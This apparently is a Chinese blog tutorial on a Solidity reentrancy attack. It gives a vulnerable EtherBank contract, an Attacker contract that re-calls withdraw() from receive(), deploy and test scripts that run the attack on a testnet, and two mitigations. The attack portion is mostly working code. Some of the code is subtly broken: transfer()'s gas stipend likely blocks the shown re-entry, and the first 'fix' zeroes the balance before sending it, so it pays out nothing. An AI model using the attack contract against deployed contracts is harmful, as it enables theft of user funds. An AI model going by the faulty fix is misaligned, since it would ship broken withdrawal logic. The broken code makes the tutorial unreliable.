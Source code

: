 ```yaml
---
title: Smart contract | How Hacker steals your assets through Receive reentry attack
catalog: true
date: 2023-08-4 17:20:17
subtitle: 智能合约 | Hacker 如何通过Receive重入攻击盗走你的资产
header-img: /img/header_img/lml_bg.jpg
tags:
- Web3-Develop
categories:
- Web3-Develop
---
```


## 快速开始

     项目介绍: 本教程介绍Hacker如何通过receive重入攻击盗走你的数字资产

---
    如何创建一个hardhat项目在之前的教程中已经充分演示过，在这里将不再过多赘述，想要了解hardhat请翻阅之前的教程！
---

## 创建存款合约 EtherBank.sol：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

contract EtherBank {
    mapping(address =>uint) public balances;
    
    function deposit() external payable{
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        require(balances[msg.sender] > 0,"withdraw amount exceeds available balance.");
        payable(msg.sender).transfer(balances[msg.sender]);
        balances[msg.sender] = 0;
    }

    function getBalance()public view returns(uint){
        return address(this).balance;
    }
}
```

## 编译合约

```shell
yarn hardhat compile
```

## 编写部署合约脚本 EtherBank-deploy.js：

```javascript
//hardhat库使用ethers组件与区块链进行交互
const { ethers } = require("hardhat");

async function main() {
    const EtherBank = await  ethers.getContractFactory('EtherBank')
    const etherBank = await EtherBank.deploy();
    console.log('etherBank',etherBank.target)
}

//执行部署
main().then(() => process.exit(0)).catch(error => {
    console.error(error);
    process.exit(1);
});
```

## 执行部署：

```shell
yarn hardhat run ./scripts/EtherBank-deploy.js --network local
```

## 编写攻击合约 Attacter：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

//EtherBank 接口
interface IEtherBank{
    function deposit() external payable;
    function withdraw() external;
}

contract Attacker {

    IEtherBank public immutable etherBank;
    address private owner;

    event AttackerSuccess(string _s);
    event Attacking(string _s);

    constructor(address _etherBankContractAddress){
        etherBank = IEtherBank(_etherBankContractAddress);
        owner = msg.sender;
    }


    function attacker() public payable{
        etherBank.deposit{value: msg.value}();
        etherBank.withdraw();
        emit Attacking('attacking!!!');
    }


    receive() external payable{
        if(address(etherBank).balance > 0){
            etherBank.withdraw();
        }else{
            emit AttackerSuccess('attacker success');
        }
    }

}
```

## 编写攻击合约部署脚本

```javascript
//hardhat库使用ethers组件与区块链进行交互
const { ethers } = require("hardhat");

async function main() {
    const Attacker = await  ethers.getContractFactory('Attacker')
    // 传入存款合约地址
    const attacker = await Attacker.deploy("0xc277cc311FB0C53aF66E56b23F89F2527E618eBE");
    console.log('XDex',attacker.target)
}

//执行部署
main().then(() => process.exit(0)).catch(error => {
    console.error(error);
    process.exit(1);
});
```

## 执行部署：

```shell
yarn hardhat run ./scripts/Attacker-deploy.js --network local
```

## 编写测试脚本

        在此处先用其他账户往存款合约中存入一定的以太坊，然后调用攻击合约进行攻击。
```javascript
const { expect } = require('chai') //断言模块
const { ethers} = require('hardhat') //安全帽模块

describe('Attacker 合约测试', () => {
    before(async function () {
        //获取合约工厂对象
        this.Attacker = await ethers.getContractFactory('Attacker')
        //通过合约工厂部署合约
        this.attacker = await this.Attacker.deploy("0x3c9680784f63Ed74F0C77942b82C1214E9f4AA41")
    })

    it('Attacking',async function () {
        const amountToSend = ethers.parseEther("0.01");
        const deposit = await this.attacker.attacker({value : amountToSend});
        console.log(deposit.hash);
    });
})

```

## 执行攻击：

```shell
yarn hardhat test ./test/Attacker.test.js --network goerli
```


至此攻击合约已经完毕，那么我们如何规避它呢？ 有两种方法

## 规避Receive重入攻击

### 方法一： 在存款合约的取款方法中，在转账前减掉取款的金额  。例如：

```solidity
    function withdraw() external {
        require(balances[msg.sender] > 0,"withdraw amount exceeds available balance.");
        balances[msg.sender] = 0;
        payable(msg.sender).transfer(balances[msg.sender]);
    }
```

### 方法二：引入openzeppelin安全库，并且在区块方法上添加 nonReentrant

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

    function withdraw() external nonReentrant{
        require(balances[msg.sender] > 0,"withdraw amount exceeds available balance.");
        payable(msg.sender).transfer(balances[msg.sender]);
        balances[msg.sender] = 0;
    }
```

## 至此，一个Receive重入攻击和规避完毕！
